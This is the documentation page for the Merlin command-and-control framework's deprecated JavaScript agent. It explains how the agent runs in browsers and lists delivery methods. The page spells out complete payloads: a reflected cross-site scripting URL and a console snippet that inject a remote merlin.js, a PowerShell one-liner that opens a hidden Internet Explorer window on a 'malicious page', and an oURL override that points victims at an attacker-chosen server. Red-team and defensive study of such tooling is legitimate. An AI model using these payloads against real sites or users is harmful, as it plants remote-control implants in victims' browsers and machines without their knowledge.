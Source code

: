 ################
JavaScript Agent
################

.. note::
    The JavaScript agent is no longer supported and does not work with newer versions of Merlin

This version of the Merlin Agent is written in JavaScript and can be run
in any location that can execute JavaScript. Web browsers can be found
on a multitude of devices to include computers, tablets, phones, TVs,
cars, and gaming systems. These are good candidates places to run a
Merlin agent.

An introductory blog post can be found here:
https://medium.com/@Ne0nd0g/merlin-javascript-all-up-in-your-browsers-e46d6449382

.. raw:: html

    <a href="https://asciinema.org/a/RHKqctghoo9fCkIVZjyMQV0N7"><img src="https://asciinema.org/a/RHKqctghoo9fCkIVZjyMQV0N7.png" alt="ASCIICast JavaScript Agent">

Usage
-----

The Merlin JavaScript Agent functions the same as other agents. It is
controlled through the server using the same commands. It is important
to note that the Merlin JavaScript Agent is only capable of executing
JavaScript commands. For example, you could execute ``2 + 2`` and the
agent will return ``4``. Alternatively, you can execute ``alert('Merlin')``
and a JavaScript alert box will appear on the page where the Merlin
Agent is running.

Limitations
-----------

* Browser must support HTTP/2
* JavaScript XHR calls will fail if using a self-signed/untrusted TLS certificate
* Your commands are limited to the sandbox environment (unless there is a vulnerability to escape it)
* Web browser must stay in the foreground on mobile devices to keep running

JavaScript Override Variable
----------------------------

The Merlin Server address is hardcoded into the `url` variable inside
of the JavaScript file. However, the Merlin JavaScript Agent will check
for existence of the `oURL` variable prior to executing the main
function. This variable is used to _override_ the hardcoded `url`
variable. This is useful when you want to deliver the JavaScript file
but don't want to change the `url` parameter prior to delivery. An
example of practical application is in the *Deployment Methods* section.

Deployment Methods
------------------

* Merlin JavaScript Agent Test Page
* Cross-Site Scripting (XSS)
* Inject directly into the DOM
* Windows IE COM Object
* Override oURLJavaScript variable

### Merlin JavaScript Agent Test Page
Merlin ships with an HTML page that can be used to test the
*Merlin JavaScript Agent*. It can be found at ``data/html/merlin.html``.
This page will automatically load the Merlin JavaScript agent, connect
to the Merlin Server, and start writing verbose messages to the screen.
The quickest way to try this out it is to use Python and start a simple
web server in the ``html`` directory (i.e.
``cd data/html;python -m SimpleHTTPServer``) and then browse to page with
``http://127.0.0.1:8000/merlin.html``.

Cross-Site Scripting (XSS)
--------------------------

Let's assume that you've found a XSS vulnerability in a GET parameter
for Acme Widgets. For example the ``page`` parameter of
``https://www.acme.com/index.html?page=1`` reflects back the value to the
user. You can exploit this XSS vulnerability to create a link that would
deliver a Merlin Agent to a victim if they click the link. An example
of the Merlin payload would be ``var merlin=document.createElement('scri
pt');merlin.src='http://127.0.0.1:8000/scripts/merlin.js';document.head.appendC
hild(merlin);``.

An example of the full payload is:

``https://www.acme.com/index.html?page=var%20merlin=document.createElement('script');merlin.src='http://127.0.0.1:8000/merlin.js';document.head.appendChild(merlin);``

Inject into the DOM
-------------------

Most web browser come with developer tools. These tools can be used to
execute JavaScript commands on *any page* that you are viewing. On Firefox
you can hit the ``F12`` key to open the developer Web Console. From
there, you can execute this command:

``var merlin=document.createElement('script');merlin.src='http://127.0.0.1:8000/scripts/merlin.js';document.head.appendChild(merlin);``

Windows IE COM Object
---------------------

Using PowerShell, you can create and hide an Internet Explorer COM
object. This would create an Internet Explorer window, hide it so that
the user can't see it, and then browse to your malicious page. This
method also has the most obstacles. The newly created window will not
trust your self-signed certificates, so you must be using a valid TLS
certificate. **For testing**, you can circumvent this by making the
windows visible, browsing to the root of your web server, and creating
an exception in Internet Explorer. After creating the exception, then
you can navigate the web page to your malicious page and then hide the
window again. Additionally, Internet Explorer seems to error out if your
malicious page is not served from the same place as your Merlin Server.
This caused the hidden Internet Explorer window re-appear (made
visible) on its own.


You can use the built-in *Merlin JavaScript Agent Test Page* to serve
the payload, but your probably better off creating a page somewhere
else with minimal HTML. If you decide to serve the *Merlin JavaScript
Agent Test Page* to deliver the payload, you can shutdown the server
giving out the page (not the Merlin Server) right after it is grabbed
by the client. The malicious HTML page does not need to be available
after initial delivery. Merlin Server is not currently setup to serve
the *Merlin JavaScript Agent Test Page* itself, yet. I will work on
getting it implemented.

An example PowerShell command is:

``$W=New-Object -com 'InternetExplorer.Application';$W.visible=$False;$W.navigate('http://www.acmewidgets.com:8000/merlin.html')``

Override URL
------------

You can host the JavaScript in its original form without having to hard
code your Merlin Server’s URL in the file. Merlin checks the DOM for the
``oURL`` variable and will use its value to connect back with (if it
exists). This provides flexibility to dynamically change the Merlin
Server’s URL on the fly.

.. tip::
    If the place you are hosting the file returns the JavaScript file
    with a content-type of ``text/plain``, then the *Merlin JavaScript Agent*
    will fail to load due to strict MIME type checking. The precludes you
    from calling the file directly from GitHub. However, if no content-type
    is provided, the agent should run.

An example command is: ``var oURL='https://your.merlin.server:443/';var merlin=document.createElement('script');merlin.src='https://some.hosting.provider/merlin.js';document.head.appendChild(merlin);``